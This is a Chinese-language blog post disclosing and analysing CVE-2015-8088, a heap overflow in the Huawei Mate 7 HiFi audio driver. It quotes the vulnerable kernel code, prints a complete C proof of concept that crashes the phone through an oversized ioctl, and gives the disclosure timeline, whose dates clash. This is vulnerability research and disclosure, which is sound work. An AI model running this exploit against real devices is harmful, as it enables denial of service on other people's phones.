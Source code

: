 ```yaml
---
layout: post
title: "CVE-2015-8088: 华为智能手机HiFi驱动堆溢出"
date: 2016-01-20 02:46:24
summary: "在华为Mate 7手机中，/dev/hifi_misc 模块允许在用户态下修改内核态的内存数据，它可能导致系统崩溃或者权限提升。"
categories: system-security
---
```


Shawn：感谢Pray3r的分享，驱动一直以来都是linux内核的重灾区，要以不断修复bug的方式去防御漏洞几乎是1990年代的方案，另外一方面，作为厂商也应该加大代码审计的投入。这篇分析的[英文版已经分享到了DNFWAH Issue 5](https://raw.githubusercontent.com/citypw/DNFWAH/master/5/d5_0x03_DNFWAH_cve-2015-8088-heap-overflow-analysis.txt)上。

By Pray3r

### Description
`/dev/hifi_misc` 是用户空间到内核空间中Hisi 芯片的一个接口，该接口和Hifi相关。我们看到`drivers/hisi/hifidsp/hifi_lpp.c`中的代码，攻击者可以在用户空间下，可以使用`HIFI_MISC_IOCTL_WRITE_PARAMS`参数，并通过调用`ioctl()`执行到该代码路径：
{% highlight html %}
static long hifi_misc_ioctl(struct file *fd, unsigned int cmd, unsigned long arg)
{
[...]
	switch(cmd) {
		[...]
		case HIFI_MISC_IOCTL_WRITE_PARAMS : /* write algo param to hifi*/
			ret = hifi_dsp_write_param(arg);
		        break;
		[...]
	}
[...]
}
{% endhighlight %}
之后，`hifi_dsp_write_param()`函数被调用，它的参数来自用户空间：

{% highlight html %}
int hifi_dsp_write_param(unsigned long arg)
{
	int ret = OK;
	phys_addr_t hifi_param_phy_addr = 0;
	void*		hifi_param_vir_addr = NULL;
	CARM_HIFI_DYN_ADDR_SHARE_STRU* hifi_addr = NULL;
	struct misc_io_sync_param para;
[...]
	if (copy_from_user(&para, (void*)arg, sizeof(struct misc_io_sync_param))) {  // arg --> para
		loge("copy_from_user fail.\n");
		ret = ERROR;
		goto error1;
	}
[...]
	hifi_param_vir_addr = (unsigned char*)ioremap(hifi_param_phy_addr, SIZE_PARAM_PRIV); // heap alloc
	if (NULL == hifi_param_vir_addr) {
		loge("hifi_param_vir_addr ioremap fail\n");
		ret = ERROR;
		goto error2;
	}
[...]
	ret = copy_from_user(hifi_param_vir_addr, para.para_in, para.para_size_in); // heap overflow
	if ( ret != 0) {
		loge("copy data to hifi error! ret = %d", ret);
	}
[...]
}
{% endhighlight %}

参数`arg`是一个结构体指针，指向用户空间的内存。`hifi_dsp_write_param()`函数初始化之后，使用`copy_from_user()`将用户空间的数据`(arg)`拷贝到内核空间中`(para)`。注意，它没做任何验证，就将用户空间下的所用的成员变量拷贝到内核空间中。`para`结构如下：

{% highlight html %}
struct misc_io_sync_param {
	void *                  para_in;          
	unsigned int            para_size_in;      
	void *                  para_out;          
	unsigned int            para_size_out;  
};
{% endhighlight %}
紧接着，又调用了`copy_from_user(hifi_param_vir_addr,
  para.para_in, para.para_size_in)`

- `hifi_param_vir_addr`指向一块由`ioremap()`分配的堆内存，这块堆内存的大小为`SIZE_PARAM_PRIV`(200 * 1024)字节。
- `para.para_in`指针由用户空间控制，它是存储数据的内存。
- `para.para_size_in`是一个`unsigned int`由用户空间控制，它是`para.para_in`的大小。

然而，代码中没有对`para.para_in`和`para.para_size_in`进行验证，如果`para.para_size_in`大于`200 * 1024`,例如`300 * 1024`，将产生一个堆溢出。PoC如下：

{% highlight html %}
/*
 *
 *  HuaWei Mate7 hifi driver Poc
 *
 *  Writen by pray3r<pray3r.z@gmail.com>
 *
 */

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>

#define HIFI_MISC_IOCTL_WRITE_PARAMS    _IOWR('A', 0x75, struct misc_io_sync_param)

struct misc_io_sync_param {
	void *                  para_in;           
	unsigned int            para_size_in;       
	void *                  para_out;           
	unsigned int            para_size_out;   
};

int main(int arg, char **argv)
{
	int fd; 
	void *in = malloc(300 * 1024);
	void *out = malloc(100);
	struct misc_io_sync_param poc;

	poc.para_in = in;
	poc.para_size_in = 300 * 1024;
	poc.para_out = out;
	poc.para_size_out = 100;

	fd = open("/dev/hifi_misc", O_RDWR);

	ioctl(fd, HIFI_MISC_IOCTL_WRITE_PARAMS, &poc);

	free(in);
	free(out);

	return 0;
}
{% endhighlight %}

执行这个PoC将导致Mate 7崩溃，请注意，该PoC至少需要在audio或system用户下执行，因为`/dev/hifi_misc`在audio和system用户下才有可写的权限。

### Impact

给`para.para_size`设置一个很大的值，手机会崩溃，但是想利用这个漏洞提权是非常困难的，因为在`ioremap()`[1]的实现调用了`get_vm_area_node()`，这个函数总是会设置PAGE_SIZE大小的保护页。

感谢Dan Rosenberg的指点。[2]

### Affected

{% highlight html %}
Model   : HUAWEI MT7-TL10
Version : MT7-TL10V100R001CHNC00B133
Android : 4.4.2
Kernel  : 3.10.30-00015-g049a08f
{% endhighlight %}
  其它类似的华为手机可能也受影响。

### Patch

参考华为官网的信息：   
 [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm)

### TimeLine

 Sep 28 2015 - Report sent to Huawei PSIRT   
 Sep 10 2015 - Huawei confirmed the security issues   
 Nov 04 2015 - Huawei fixed and public the security issues   
 Nov 09 2015 - Update CVE number   

### Reference
[1]. http://lxr.free-electrons.com/source/mm/vmalloc.c#L1351
[2]. http://seclists.org/oss-sec/2015/q4/532

